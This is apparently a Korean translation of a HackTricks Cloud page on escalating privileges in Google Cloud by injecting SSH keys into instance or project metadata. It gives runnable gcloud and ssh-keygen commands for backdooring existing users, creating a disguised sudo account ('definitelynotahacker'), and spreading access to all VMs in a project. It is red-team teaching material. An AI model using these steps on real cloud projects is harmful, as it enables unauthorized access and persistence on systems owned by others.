 # GCP - 사용자 정의 SSH 메타데이터 추가

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

## 메타데이터 수정 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

인스턴스의 메타데이터 수정은 **공격자가 필요한 권한을 획득하면 중대한 보안 위험**을 초래할 수 있습니다.

### **사용자 정의 메타데이터에 SSH 키 통합**

GCP에서는 **Linux 시스템**이 종종 [Google Compute Engine을 위한 Python Linux Guest Environment](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)에서 스크립트를 실행합니다. 이에 중요한 구성 요소는 [계정 데몬](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)으로, 이는 인스턴스 메타데이터 엔드포인트를 **정기적으로 확인하여 인증된 SSH 공개 키에 대한 업데이트를 찾습니다**.

따라서, 공격자가 사용자 정의 메타데이터를 수정할 수 있다면, 데몬이 새로운 공개 키를 찾아서 **로컬 시스템에 통합**시킬 수 있습니다. 이 키는 기존 사용자의 `~/.ssh/authorized_keys` 파일에 추가되거나, 키의 형식에 따라 **`sudo` 권한을 가진 새로운 사용자를 생성**할 수도 있습니다. 그리고 공격자는 호스트를 침해할 수 있게 됩니다.

### **기존 권한이 있는 사용자에 SSH 키 추가**

1. **인스턴스에서 기존 SSH 키 확인:**
- 인스턴스와 해당 메타데이터를 설명하는 명령을 실행하여 기존 SSH 키를 찾습니다. 출력에서 관련 섹션은 `metadata` 아래에 있으며, 특히 `ssh-keys` 키입니다.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- SSH 키의 형식에 주의하세요: 사용자 이름은 콜론으로 구분된 키 앞에 옵니다.

2. **SSH 키 메타데이터를 위한 텍스트 파일 준비:**
- 사용자 이름과 해당하는 SSH 키의 세부 정보를 `meta.txt`라는 텍스트 파일에 저장합니다. 이는 새로운 키를 추가하는 동시에 기존 키를 보존하기 위해 필수적입니다.

3. **대상 사용자(`alice` 예시)를 위한 새로운 SSH 키 생성:**
- `ssh-keygen` 명령을 사용하여 새로운 SSH 키를 생성하고, 주석 필드(`-C`)가 대상 사용자 이름과 일치하는지 확인합니다.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- 인스턴스의 메타데이터에서 찾은 형식과 유사하게 새로운 공개 키를 `meta.txt`에 추가합니다.

4. **인스턴스의 SSH 키 메타데이터 업데이트:**
- `gcloud compute instances add-metadata` 명령을 사용하여 업데이트된 SSH 키 메타데이터를 인스턴스에 적용합니다.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **새로운 SSH 키를 사용하여 인스턴스에 액세스:**
- 새로운 키를 사용하여 SSH로 인스턴스에 연결하고, 대상 사용자(`alice` 예시)의 쉘에 액세스합니다.
```bash
ssh -i ./key alice@localhost
sudo id
```

### **새로운 권한을 가진 사용자 생성 및 SSH 키 추가**

흥미로운 사용자를 찾지 못한 경우, 새로운 사용자를 생성하고 `sudo` 권한을 부여할 수 있습니다.
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### 프로젝트 수준에서 SSH 키 사용하기 <a href="#sshing-around" id="sshing-around"></a>

클라우드 환경에서 **프로젝트 수준에서 SSH 키를 적용**하여 여러 가상 머신(VM)에 대한 SSH 액세스 범위를 확장할 수 있습니다. 이 접근 방식은 프로젝트 내에서 명시적으로 프로젝트 전체 SSH 키를 차단하지 않은 경우 프로젝트 내의 모든 인스턴스에 대한 SSH 액세스를 허용합니다. 다음은 요약된 가이드입니다:

1. **프로젝트 수준에서 SSH 키 적용:**
- `gcloud compute project-info add-metadata` 명령을 사용하여 `meta.txt`에서 SSH 키를 프로젝트의 메타데이터에 추가합니다. 이 작업은 SSH 키가 프로젝트 내의 모든 VM에서 인식되도록 보장하며, VM이 "프로젝트 전체 SSH 키 차단" 옵션을 사용하지 않은 경우에만 해당합니다.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **프로젝트 전체 키를 사용하여 인스턴스에 SSH 접속:**
- 프로젝트 전체 SSH 키가 설정되어 있으면 프로젝트 내의 모든 인스턴스에 SSH로 접속할 수 있습니다. 프로젝트 전체 키를 차단하지 않은 인스턴스는 SSH 키를 허용하여 액세스를 허용합니다.
- 인스턴스에 직접 SSH로 접속하는 방법은 `gcloud compute ssh [INSTANCE]` 명령을 사용하는 것입니다. 이 명령은 현재 사용자 이름과 프로젝트 수준에서 설정된 SSH 키를 사용하여 액세스를 시도합니다.


# 참고 자료
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로에서 영웅까지 AWS 해킹 배우기<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* HackTricks에서 **회사 광고를 보거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family)인 [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** 팔로우하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 여러분의 해킹 기술을 공유하세요.

</details>
